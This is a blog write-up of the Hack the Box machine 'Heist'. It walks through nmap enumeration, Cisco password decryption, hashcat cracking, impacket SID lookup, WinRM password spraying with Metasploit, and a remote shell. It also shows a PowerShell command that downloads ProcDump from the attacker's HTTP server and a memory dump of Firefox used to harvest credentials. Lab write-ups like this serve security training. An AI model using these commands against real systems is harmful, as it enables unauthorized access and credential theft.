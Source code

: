 +++
author = "Nick"
categories = ["CTF", "enumeration", "windows", "Powershell", "WinRM", "Ruby", "CVE", "hashcat", "impacket", "metasploit", "procdump", "hack the box", "cisco hashes"]
date = 2019-11-30T15:07:05Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/09/info-1.png"
slug = "hack-the-box-heist"
summary = "Welcome back everyone! Today we are going to be going through the Hack the Box machine, Heist. Lets jump in!"
tags = ["CTF", "enumeration", "windows", "Powershell", "WinRM", "Ruby", "CVE", "hashcat", "impacket", "metasploit", "procdump", "hack the box", "cisco hashes"]
title = "Hack the Box - Heist"

+++


Welcome back everyone! Today we are going to be going through the Hack the Box machine, Heist. Lets jump in!

As usually we start off with our standard nmap scan. ```nmap -sC -sV -oA heistscan 10.10.10.149```
```
Host is up (0.054s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 39s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-09T15:55:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We get back a fairly limited amount of results. So lets just be safe and rescan all ports. ```nmap -sV -p- -T4 10.10.10.149```

```
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49668/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect resul
```

This is bit more interesting. We see that we have port 5985 open, which is WinRM. That can be handy later on. Lets check out what the HTTP service is hosting.

![](/images/2019/09/image-1.png)

We see a login portal, admin:admin or any other standard password username combo's. We do see an option to login as guest. When we click it we are brought to a conversation tree.

![](/images/2019/09/image-2.png)

We are able to deduce a username, Hazard, as well as an attachment's directory. When we look at the attachement, we see a cisco config. We can decrypt level 7 passwords with an online tool [here](http://www.ifm.net.nz/cookbooks/passwordcracker.html). We enter in the encrypted password and get our dencrypted password back.

![](/images/2019/09/image-3.png" caption="The first.)

![](/images/2019/09/image-5.png" caption="The second.)

We also have the ability to try and brute for the type 5 passwords as well, but it fails. That's probably a better job for hashcat. We will put that type 5 password into a file and feed it to hashcat. I'll crack this from my windows machine since my VM would take forever to do it!

We issue ```hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt``` and wait.

![](/images/2019/09/image-4.png" caption="stealth1agent eh?)

Seconds later, we have a stealth1agent listed as the password. So now that we have a username and three passwords, we should try to see if they are a valid credentials for SMB.

We can start by enumerating shares on the target. ```smbmap -L \\\\10.10.10.149\\ -U Hazard```. We can then give it the password we just cracked and see if we can list some shares.

![](/images/2019/09/image-6.png)

We have a standard listing of shares. Trying to login with the three passwords we have as Hazard didn't work. So we'll need to enumerate the users a bit more. We can use a tool called lookupsid.py by [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py).

![](/images/2019/09/image-7.png)

We now have a list of users on the machine as well as the domain the machine is part of. We now have enough data to try and spray the RPC port for working credentials. First we need to compile the users into a file as well as all our passwords.

![](/images/2019/09/image-8.png)

We can now start up Metasploit using ```msfdb run```. We can locate some useful WinRM modules with ```search WinRM``` within Metasploit.

![](/images/2019/09/image-9.png)

In this case we want to use option 2, winrm_login. When we show the options we see the fields we want to use are ```PASS_FILE```, ```RHOSTS```, ```DOMAIN``` and ```USER_FILE```.

![](/images/2019/09/image-10.png)

We set all the options and let it rip!

![](/images/2019/09/image-11.png)

Looks like Chase is our guy! We will try to login using the above credentials to SMB and see what we get.

![](/images/2019/09/image-14.png)

Denied. After some quick digging around for WinRM RCE's, I found [this](https://alamot.github.io/winrm_shell/). We will simply modify the script with our credentials and target and see if it works out.

![](/images/2019/09/image-16.png" caption="Note that we have HTTP and not HTTPS.)

We have a shell!

![](/images/2019/09/image-17.png)

We change our directory to Desktop and snag the user.txt file. Onto root!

We know that since we've connected via WinRM that our current shell is powershell. So we can enumerate our processes by issueing ```get-process```. When we do, we notice everything is pretty normal except the Firefox instances. This is to emulate that there is another user on the machine running something, maybe an admin.

![](/images/2019/09/image-18.png)

As part of our enumeration, we head over to C:/inetpub/wwwroot and see whats there.

![](/images/2019/09/image-19.png)

We don't seem to have the ability to list the contents of the directory. We do however know what some of the pages that are being served, mostly login.php. Lets try to view that. It works, we can view the content of this PHP file. The part that sticks out is the password verification.

![](/images/2019/09/image-20.png)

We have a SHA256 encrypted password being stored here in plain text. We can simply decrypt this and have the password for admin.

![](/images/2019/09/image-21.png)

Lets try the same WinRM with the username Administrator and this password.

![](/images/2019/09/image-22.png)

Success! We have the root flag! However, I don't think that was the intended way of gaining root. I think the machine creator wanted us to use ProcDump to dump data from the FireFox instances and find the password in that dump. So lets do that too.

The first things we need to do is download ProcDumpfrom Microsoft. Once we do we will sping up a SimpleHTTPServer and serve the files to our machine: ```python -m SimpleHTTPServer 80```.

Now that its running we can use powershell to grab the file.

```(new-object net.webclient).DownloadFile("http://10.10.14.136/procdump64.exe","C:/users/Chase/Documents/p64.exe")```

We now have the file renamed as p64.exe. We will give it the commands to dump the processes from the larges running firefox instance.

![](/images/2019/09/image-23.png)

In this case we will use process 6612 since its using the mose amount of CPU. ```./p64.exe -accepteula -ma 6612```.

![](/images/2019/09/image-24.png)

This kicks out our dump file. One thing you may have noticed as we are jumping around on the system that Linux Subsystem is enabled on this machine. This helps us because we can use some linux based commands to parse this file.

```cat firefox.exe_190913_231848.dmp | % { if($_ -match "password") {echo $_}}```

This will give us a large output but if we sift through it, we should find the password we are looking for!
Sure enough, if you have your terminal scroll back high enough, you will find and unecrypted password. Now it would probably be a bit easier to download the file back to our attacking machine and just ```strings``` and ```grep``` the file for password but the file is a bit too large to be doing on the HTB network.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

